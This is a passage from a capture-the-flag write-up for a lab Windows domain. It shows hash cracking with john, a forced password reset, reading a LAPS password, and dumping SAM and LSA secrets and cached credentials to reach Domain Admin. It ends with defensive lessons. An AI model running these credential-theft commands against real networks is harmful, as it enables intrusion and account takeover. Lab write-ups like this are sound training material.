Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Servicesince1979 (IntranetSvc)     
1g 0:00:00:02 DONE (2026-10-17 20:18) 0.4807g/s 5099Kp/s 5099Kc/s 5099KC/s Shanel5!..Sergio03
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```



*john recovering Servicesince1979 from the IntranetSvc NTLMv2 hash*

Cracked. We validate against the DC.

```
nxc smb 10.1.179.113 -u 'IntranetSvc' -p 'Servicesince1979' --shares
```

```
SMB         10.1.179.113    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:lumons.hacksmarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.179.113    445    DC01             [+] lumons.hacksmarter\IntranetSvc:Servicesince1979 
SMB         10.1.179.113    445    DC01             [*] Enumerated shares
SMB         10.1.179.113    445    DC01             Share           Permissions     Remark
SMB         10.1.179.113    445    DC01             -----           -----------     ------
SMB         10.1.179.113    445    DC01             ADMIN$                          Remote Admin
SMB         10.1.179.113    445    DC01             C$                              Default share
SMB         10.1.179.113    445    DC01             IPC$            READ            Remote IPC
SMB         10.1.179.113    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.179.113    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating IntranetSvc credentials with NetExec*

Valid, with the same default share access.

## Access as marks

We mark `IntranetSvc` as owned. BloodHound shows it holds `ForceChangePassword` over several users.



*BloodHound ForceChangePassword: IntranetSvc over marks*

Of those, `marks` is enabled and a member of `LAPSADMINS`, so that is the account we take.



*BloodHound showing marks membership in LAPSADMINS*

`ForceChangePassword` sets the password without needing the current one.

```
net rpc password 'marks' '0xB1rdWasHere1337!' -U 'lumons.hacksmarter'/'intranetsvc'%'Servicesince1979' -S '10.1.179.113'
```

The command returns nothing, so we test the new password.

```
nxc smb 10.1.179.113 -u 'marks' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.179.113    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:lumons.hacksmarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.179.113    445    DC01             [+] lumons.hacksmarter\marks:0xB1rdWasHere1337! 
SMB         10.1.179.113    445    DC01             [*] Enumerated shares
SMB         10.1.179.113    445    DC01             Share           Permissions     Remark
SMB         10.1.179.113    445    DC01             -----           -----------     ------
SMB         10.1.179.113    445    DC01             ADMIN$                          Remote Admin
SMB         10.1.179.113    445    DC01             C$                              Default share
SMB         10.1.179.113    445    DC01             IPC$            READ            Remote IPC
SMB         10.1.179.113    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.179.113    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating marks credentials with NetExec*

The new password works.

## Shell as marks (user.txt)

Evil-WinRM accepts the new credentials on the intranet server.

```
evil-winrm -i 10.1.230.230 -u 'marks' -p '0xB1rdWasHere1337!'
```



*The Evil-WinRM session on INTRANET as marks with user.txt listed on the desktop*

`user.txt` is on the desktop.

## Shell as localadmin

LAPS (Local Administrator Password Solution) rotates the local administrator password on each managed computer and stores it on the computer's object in AD, where only principals granted read access can retrieve it. `marks` sits in `LAPSADMINS`, so we check whether that membership carries the read.

```
nxc ldap DC01.lumons.hacksmarter -u 'marks' -p '0xB1rdWasHere1337!' --module laps
```

```
LDAP        10.1.179.113    389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:lumons.hacksmarter) (signing:Enforced) (channel binding:When Supported) 
LDAP        10.1.179.113    389    DC01             [+] lumons.hacksmarter\marks:0xB1rdWasHere1337! 
LAPS        10.1.179.113    389    DC01             [*] Getting LAPS Passwords
LAPS        10.1.179.113    389    DC01             Computer:INTRANET$ User:localadmin      Password:DigStewDroneMullBoxerGrasp
```



*NetExec reading the LAPS password for localadmin on INTRANET$*

It does. The managed account on `INTRANET` is `localadmin`, not the built-in Administrator, and NetExec returns its current password.

We try to dump the SAM and LSA secrets on `INTRANET` as `localadmin`, with `--local-auth` so NetExec authenticates against the host's own account database rather than the domain.

```
nxc smb 10.1.230.230 -u 'localadmin' -p 'DigStewDroneMullBoxerGrasp' --local-auth --sam --lsa
```

```
SMB         10.1.230.230    445    INTRANET         [*] Windows 11 / Server 2025 Build 26100 x64 (name:INTRANET) (domain:INTRANET) (signing:False) (SMBv1:None)
SMB         10.1.230.230    445    INTRANET         [+] INTRANET\localadmin:DigStewDroneMullBoxerGrasp
```



*NetExec authenticating as INTRANET\localadmin with no (Pwn3d!) marker and nothing dumped*

The password works, but there is no `(Pwn3d!)` and nothing dumps, so the session has no administrative rights over the network. That fits remote UAC (User Account Control), which by default strips admin rights from network logons by any local account other than the built-in Administrator. An interactive logon can still elevate through a UAC prompt, so we RDP in instead.

```
xfreerdp3 /v:10.1.230.230 /d:INTRANET /u:localadmin /p:DigStewDroneMullBoxerGrasp /cert:ignore /dynamic-resolution +clipboard
```



*The RDP session on INTRANET as localadmin*

Remote UAC does not filter domain accounts, so we add `marks` to the local Administrators group. In the RDP session, we right-click Command Prompt, choose Run as administrator, and accept the UAC prompt, then run the command from there.

```
net localgroup Administrators marks /add
```

```
The command completed successfully.
```

We list the group to confirm the change.

```
net localgroup Administrators
```

```
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
localadmin
LUMONS\Domain Admins
LUMONS\MarkS
The command completed successfully.
```

`marks` is now a member. `localadmin` is listed too, which confirms it holds administrative rights on the host and the earlier network refusal came from remote UAC rather than a missing right.



*An elevated prompt in the localadmin RDP session adding marks to Administrators and listing the group*

## Shell as hellye (root.txt)

Back on our own machine, we run the same NetExec dump that failed as `localadmin`, this time as `marks`.

```
nxc smb 10.1.230.230 -u 'marks' -p '0xB1rdWasHere1337!' --sam --lsa
```

```
SMB         10.1.230.230    445    INTRANET         [*] Windows 11 / Server 2025 Build 26100 x64 (name:INTRANET) (domain:lumons.hacksmarter) (signing:False) (SMBv1:None)
SMB         10.1.230.230    445    INTRANET         [+] lumons.hacksmarter\marks:0xB1rdWasHere1337! (Pwn3d!)
SMB         10.1.230.230    445    INTRANET         [*] Dumping SAM hashes
SMB         10.1.230.230    445    INTRANET         Administrator:500:aad3b435b51404eeaad3b435b51404ee:d5cad8a9782b2879bf316f56936f1e36:::
SMB         10.1.230.230    445    INTRANET         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.1.230.230    445    INTRANET         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.1.230.230    445    INTRANET         WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7490f2a63d713a813eda5bf8fd1a8227:::
SMB         10.1.230.230    445    INTRANET         localadmin:1003:aad3b435b51404eeaad3b435b51404ee:9ebe325a993a940f5418f051603e9b37:::
SMB         10.1.230.230    445    INTRANET         [+] Added 5 SAM hashes to the database
SMB         10.1.230.230    445    INTRANET         [*] Dumping LSA secrets
SMB         10.1.230.230    445    INTRANET         LUMONS.HACKSMARTER/IntranetSvc:$DCC2$10240#IntranetSvc#0604e068de4e681075537483c2686664: (2026-10-18 00:16:58)
SMB         10.1.230.230    445    INTRANET         LUMONS.HACKSMARTER/hellye:$DCC2$10240#hellye#62da21b55a047cda1bf1bebb132e48c9: (2025-11-07 01:31:10)
SMB         10.1.230.230    445    INTRANET         LUMONS.HACKSMARTER/harmonyc:$DCC2$10240#harmonyc#13e0bc086ece101dbfe8ddace8d790f1: (2025-11-07 01:27:32)
SMB         10.1.230.230    445    INTRANET         LUMONS.HACKSMARTER/MarkS:$DCC2$10240#MarkS#8a4d0def1768736c229a667312cb8565: (2025-10-10 00:54:05)
SMB         10.1.230.230    445    INTRANET         LUMONS\INTRANET$:aes256-cts-hmac-sha1-96:2332c341bca06a19b0e30317aeab2d37780052238e2257bc9056e0ea30f859f2
SMB         10.1.230.230    445    INTRANET         LUMONS\INTRANET$:aes128-cts-hmac-sha1-96:592675bcaa6eda30466b4438cd9f1549
SMB         10.1.230.230    445    INTRANET         LUMONS\INTRANET$:des-cbc-md5:4fd03b49589d49ce
SMB         10.1.230.230    445    INTRANET         LUMONS\INTRANET$:plain_password_hex:49006e00720073004f004b0030003d0045002b005700670049006100780058006a00440035003400660068004a004f00350050007000580070004d004300540030003d004f0057007a004a0051007300500065004b005a0042006e00540052006c003400750034005a00350039006b004b0041006d0044003800510070004200420055005600670058005200420031007400420051006c007200510075002b005400680071005a0059007100520062007700710046003100590048006300520054004200630043006b004d0035007900660046006f004c0072006a0069004800460051004b006a003d0057002b003d004d007a00620042003900300054002b003600690079004c0067006a0056006800710045006e00570048006b006d00300034004300740041003d005800740035006900510056006c00610056004d0066007a004400460063004b006f007300410069004c006a00500041006f007a0047006d00410063004f006400460050005a00660037005a00360074004c00460065006e0076006f0039006a00700064006300480063005a004d00770078006100760072006a00490067004f006d0056007a004900360061004e00310068004b006a00650079004a003900650039005a00420070003200770075006a007300760067004a005a00490059004500700074004d0074007200300069007600500063006b00
SMB         10.1.230.230    445    INTRANET         LUMONS\INTRANET$:aad3b435b51404eeaad3b435b51404ee:b7db23f2e87723f2e2607707fc7e292a:::
SMB         10.1.230.230    445    INTRANET         dpapi_machinekey:0xb1c72f324c3529f33e6e8f55b8b2e07a62f06c52
dpapi_userkey:0x8a91f8d527a2aecbdb427de852923989e1f906db
SMB         10.1.230.230    445    INTRANET         M$MachineBoundCertificate:7600000001000000030300000303000000000000170000006400000001000000010100000100000025cdb52943168e41665b8987089254dcef95b5a21ff43d49421634fac1d21bad57a6d28f373b4afcb94fa02e7628b7d80100000000000000000000000000000001000000880200004c736149736f4173796d6d65747269634b6579426c6f628316b230fa1b911ee10de55c18a30c668b446decb3628bca5e6eafaa5b9283878cb9651e0934bc5dd49c5d41086b3de0a337148507519caade54f2edf45582d8b668c31b3cc4d1609e6d42eacfecdf002ca8d6e8aca407028ba059a3249b6e70267b0ee59f7c3f0819690c85d6156e2b2d54daa84b4d4c411001838bb87eed8e85df427408cf5e06a87f9ed932f21e66d460ecc111cec41e2765a1483a7e9d0ed3dabc7326b3b4d04a76bf71f9db9e9a8cb4f467ba4b74e8bd049870bd751e0c12ba7e4030e01967ea3da8a0a733a9661922f308875bbfe0d1fec724abf7e3aaa8b09a3c1f163ebab38cead9f96aca6a19ebcaaacbb0b57da63756fba569c138600302f32e98d634302d7167495019d1f59c9f5c92ecb2a21d87768ed0c46d085eaad8ab1a6629febd44d811dca92c6655d23b1f8e12ea245f767291fd0f436a3e2433b6891a204997ecf2d54cfa2419ab79b8882c959a9f03d191987f1638be93d78a64e4fffa0795d63b84e39471be53774bb2d6f52d97bff217dce84ccfecc8e8aa1a2c1e4e5ec90c3486cf13924b32ae0c3a6d4d602471d61e93d8a57d55e033a7c48c11c943fd3436d93ef8df2339edf0dc5fecaed040e63e880b4e8535ff925fb83bef22c4bde77d7b0122454724b6f8536c8e95a52d55586f4e7dd47f9a3d6e1fc53f32961f13a2e99aa74d88cb0231bf59fec056f25630541d0310cc3e6c800c1808af4b1478949d8889ae7f90137659734d526ef7830cb6aab3b65e16f998e72376cc42bb28003d6080b7f138866d8f20617ba3226b3e13ba817915aa702ab23e65f40531a6b5f2cf13f8fb1bace5611bc608e92e651508b079e1edd9e1a0e17faf3333ca4d9db4256ac6aabf3a4f17b4abc63edf66900b3d1de9ac7901a1de609692ca2000000001000000ab020000308202a73082018fa003020102020101300d06092a864886f70d01010b050030163114301206035504030c0b434e3d494e5452414e45543020170d3235313030393232313134385a180f32313235303931353232313134385a30163114301206035504030c0b434e3d494e5452414e455430820122300d06092a864886f70d01010105000382010f003082010a0282010100d1e10a3c36c5b1892057659280bcc0af0cf51827603a3165441136aa2f88260c59c018b6b530d0b8fc32e4b120578044dbc467f8989bbd0f1ba2ef848fd05e10e13c938730ed458e416019b20c1e5d67c809f8c6d2ed682f7dc1c337649eb6a77f53c1a0160915459f8430b8a54d6874f8b488ddc36f5c2570cade82728113e5ada43671f81ee862b2f021d52d6d74b450e58cd165656e528f7dd5d8c2d90d62f9c433c61393d52f56878167412abcf474476fc9abe13c6968762881f2a095cf1e6b9a1a02567301f60c1691f61ef7c7e318af79475e35a24408a9f8818e500679b6e11fa15e2f2ce55521634075b236e563b1c63ab6e12affd7cadfd4f4d59d0203010001300d06092a864886f70d01010b05000382010100a4a1f454f82a374abede2db245863b8596d7f5fef0551b58b14336a03be29901e41bc9c4f352fe1a0aa658dc69a8a04067333835053d115d13e442e0db901c358695a5a986dfb2151e69fec5cbdc03a0f2bc256d9d87a74381bb74d1be8ce581f3487c2d7a7d4e50120f31b2cebece5637bb7f2647c8b3070546f43d4f840d16bd3843907cdfa45e085733b1f16efbff0fdfacfcb531677ac31a29cc920ff6c676e685d6861441ee520d1dfaecff70213e163009fe2c6815366cdba5429a06b35a464dcd62f9968e6f39b19a78f7e42d8ea348a75fbe74a8f090062a3b474971447182d5856defe968e0af6c32fad9fdcecb3f4c5320815b3ae6ae850e325a14
SMB         10.1.230.230    445    INTRANET         LUMONS\harmonyc:h@rmony08
SMB         10.1.230.230    445    INTRANET         [+] Dumped 12 LSA secrets to /home/kali/.nxc/logs/lsa/INTRANET_10.1.230.230_2026-10-17_204420.secrets and /home/kali/.nxc/logs/lsa/INTRANET_10.1.230.230_2026-10-17_204420.cached
```



*NetExec reaching (Pwn3d!) as marks on INTRANET and dumping the SAM hashes and LSA secrets, including the cached domain logons*

NetExec's `(Pwn3d!)` marks administrative access on the host. That host is `INTRANET`, and the dump that came back empty as `localadmin` now works as a domain account.

Alongside the local SAM hashes, the LSA dump includes the cached domain logons. Windows caches a hash of each recent interactive domain logon so the user can still sign in when no domain controller is reachable. These are DCC2 (Domain Cached Credentials version 2) hashes, and unlike an NT hash they cannot be passed, so the only way to use one is to crack it.

One entry belongs to `hellye`, and BloodHound has `hellye` in Domain Admins.



*BloodHound showing hellye membership in Domain Admins*

We save the `hellye` entry to `hellye_hash.txt` and crack it with john.

```
john hellye_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Warning: detected hash type "mscash2", but the string is also recognized as "HMAC-MD5"
Use the "--format=HMAC-MD5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (mscash2, MS Cache Hash 2 (DCC2) [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Security&system  (LUMONS.HACKSMARTER/hellye)     
1g 0:00:01:44 DONE (2026-10-17 20:50) 0.009525g/s 19931p/s 19931c/s 19931C/s SemperFi07..Scorpio21
Use the "--show --format=mscash2" options to display all of the cracked passwords reliably
Session completed.
```



*john recovering Security&system from the hellye DCC2 hash*

Cracked, though much slower than the NTLMv2 hashes, because DCC2 is deliberately expensive to compute. With `hellye`'s password, we log in to the domain controller over RDP.

```
xfreerdp3 /v:10.1.179.113 /d:lumons.hacksmarter /u:hellye /p:'Security&system' /cert:ignore /dynamic-resolution +clipboard
```



*The RDP session on DC01 as hellye with root.txt listed on the Administrator desktop*

`hellye` is a Domain Admin, so we now control the domain. `root.txt` is on the `Administrator`'s desktop.

## Final Thoughts

LAPS handed me the local administrator password on INTRANET, but remote UAC blocked every dump I tried with it. RDP and one `net localgroup` command got around that. The cached `hellye` hash was the slowest crack of the run, at almost two minutes.

A share one user can write to and another browses gives up their hashes. The admin portal's file browser gave up `IntranetSvc` the same way, and a server that browses user-supplied UNC paths needs an allowlist of shares and outbound SMB blocked at the firewall. `IntranetSvc` held `ForceChangePassword` over a LAPS reader, and object-level rights like these need auditing on a schedule rather than at build time. A Domain Admin who signs in interactively to a member server leaves a crackable cached credential behind, so tier 0 accounts belong on domain controllers only.

— 0xB1rd
